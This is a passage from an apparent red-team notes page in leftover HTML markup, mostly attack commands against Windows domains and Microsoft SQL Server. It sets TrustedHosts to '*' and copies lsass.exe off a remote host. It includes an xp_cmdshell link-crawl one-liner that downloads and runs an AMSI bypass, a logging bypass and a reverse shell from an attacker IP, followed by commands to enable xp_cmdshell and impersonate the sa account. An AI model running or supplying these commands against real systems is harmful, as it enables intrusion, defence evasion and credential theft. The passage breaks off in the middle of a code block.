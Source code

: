 # Configure WSMan to allow PSRemoting via IP Address
Set-Item WSMan:\localhost\Client\TrustedHosts * -Force

# PSRemote into prod_forest
Enter-PSSession &lt;PROD_FOREST_IP_ADDRESS&gt; -Authentication NegotiateWithImplicitCredential</code></pre><ul id="1c5afa96-5343-4eeb-bb07-9daab82fc99b" class="bulleted-list"><li style="list-style-type:disc">note when PSRemoting using an IP address, you must use NTLM authentication</li></ul><ul id="b475b790-4811-4969-8bdd-c7829fa605b8" class="bulleted-list"><li style="list-style-type:disc">you can then use <code>Copy-Item -Path C:\Windows\System32\lsass.exe -FromSession $prodsession -Destination &#x27;C:\Users\Administrator\lsass.exe&#x27;</code> to copy the lsass.exe file on the remote session to the local machine</li></ul><h2 id="46ddd562-8adb-41a4-a62c-188b19c53633" class="">MSSQL</h2><p id="452a9c53-4fe6-4d6c-9f15-5792253d6822" class="">Use <code>Invoke-SQLAudit</code> to find misconfigurations in SQL server</p><h3 id="aea80314-f25c-4923-8339-13c4fd3de701" class="">Getting Shell on SQL Instance</h3><ul id="edabac04-d2a1-4d84-91bf-49b79200f456" class="bulleted-list"><li style="list-style-type:disc">run this command from PowerUpSQL to get a reverse shell on target_machine <code>Get-SQLServerLinkCrawl -Instance us-mssql -Query &#x27;exec master..xp_cmdshell &#x27;&#x27;powershell.exe -c &quot;iex(iwr -UseBasicParsing &lt;ATACKER_IP&gt;/amsibypass.txt);iex(iwr -UseBasicParsing &lt;ATACKER_IP&gt;/sbloggingbypass.txt);iex(iwr -UseBasicParsing &lt;ATACKER_IP&gt;/reverse.ps1)&quot;&#x27;&#x27;&#x27; |select -ExpandProperty CustomQuery</code><ul id="af6c0f59-b6a8-4d87-be52-b1103fa9d45e" class="bulleted-list"><li style="list-style-type:circle">this requires <code>rpcout</code> and <code>xp_cmdshell</code> to be enabled on the SQL machine</li></ul><ul id="d08df4ef-d213-4c9c-8c46-37333e1704d6" class="bulleted-list"><li style="list-style-type:circle">can manually enabled <code>rpcout</code> and <code>xp_cmdshell</code> on a SQL node as long as the user on which the target node is run is high-privileged (such as sa [system administrator]) </li></ul></li></ul><ul id="c0b69fa1-2f71-404c-a303-58764422105a" class="bulleted-list"><li style="list-style-type:disc">use <code>Get-SQLInstanceDomain | Get-SQLServerInfo</code> to get information for SQL instances in current forest</li></ul><p id="6de71751-0b16-4f9d-9370-f856b749383b" class=""><strong>Enable RPC on SQL machine</strong></p><pre id="1dfa402a-ef31-44a4-9b27-6ed0a967744e" class="code"><code>Invoke-SqlCmd -Query &quot;exec sp_serveroption @server=&#x27;target-sqlsrv&#x27;, @optname=&#x27;rpc&#x27;, @optvalue=&#x27;TRUE&#x27;&quot;
Invoke-SqlCmd -Query &quot;exec sp_serveroption @server=&#x27;target-sqlsrv&#x27;, @optname=&#x27;rpc out&#x27;, @optvalue=&#x27;TRUE&#x27;&quot;
Invoke-SqlCmd -Query &quot;EXECUTE (&#x27;sp_configure &#x27;&#x27;show advanced options&#x27;&#x27;,1;reconfigure;&#x27;) AT &quot;&quot;target-sqlsrv&quot;&quot;&quot;
Invoke-SqlCmd -Query &quot;EXECUTE(&#x27;sp_configure &#x27;&#x27;xp_cmdshell&#x27;&#x27;,1;reconfigure&#x27;) AT &quot;&quot;target-sqlsrv&quot;&quot;&quot;</code></pre><h3 id="da26d21c-7aad-4be4-86e1-00a8089d09b7" class="">User Impersonation</h3><p id="859c2159-7a59-43c7-b189-87e5c0a1ee1a" class="">May be possible to impersonate other users within an SQL instance if given the IMPERSONATE privilege and EXECUTE AS function.</p><ul id="7df856d9-9bd7-4844-8e0c-524bf230bbd5" class="bulleted-list"><li style="list-style-type:disc">to find users you can impersonate, run <code>Get-SQLquery -Instance target-sqlsrv -Query &quot;SELECT distinct </code><code><a href="http://b.name/">b.name</a></code><code> FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = &#x27;IMPERSONATE&#x27;&quot;</code></li></ul><ul id="555f9585-57a6-477f-9081-75224d870df3" class="bulleted-list"><li style="list-style-type:disc">use SQLRecon.exe for impersonation, as they have modules meant exactly for such a scenario</li></ul><p id="b0a3baef-d1c5-47d5-ac5d-68e776589542" class=""><strong>Performing Impersonation with SQLRecon</strong></p><pre id="20e23087-28ad-4354-ad6d-5da624fff696" class="code"><code># Enabling advanced options
SQLRecon.exe -a Windows -s target-sqlsrv -m iquery -i sa -o &quot;EXEC sp_configure &#x27;show advanced options&#x27;,1 RECONFIGURE&quot;
